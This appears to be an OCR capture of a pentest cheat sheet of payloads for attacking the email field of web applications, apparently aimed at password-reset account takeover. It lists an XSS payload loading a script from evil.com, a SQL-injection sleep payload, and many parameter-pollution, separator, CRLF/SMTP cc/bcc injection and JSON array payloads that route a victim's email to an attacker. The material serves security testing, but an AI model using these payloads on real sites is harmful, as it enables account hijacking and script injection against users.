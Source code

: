 ```
"'--><script/src=//evil.com></script>"@example.com
"'-sleep(5)-'"@mail.local
```

## Comma saperator with HPP chain

{"email":"Victim@gmail.com,Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com,Attacker@gmail.com"}
// Semiclon saperator with HPP chain
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
// Space saperator with HPP chain
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}
// Carbon Copy (CC:) with HPP chain
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}

// Blind Carbon Copy (BCC:) with HPP chain
{"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}

#Parameter Pollution
email=victim@gmail.com&email=attacker@gmail.com

#CRLF and SMTP Inejciton
email=victim@gmail.com%0a%0dcc:attacker@gmail.com

#Padding in Json Body
{"email":["victim@gmail.com","attacker@gmail.com"]}

#Using Seperators
email=victim@gmail.com,attacker@gmail.com
email=victim@gmail.com|attacker@gmail.com
email=victim@gmail.com%20attacker@gmail.com
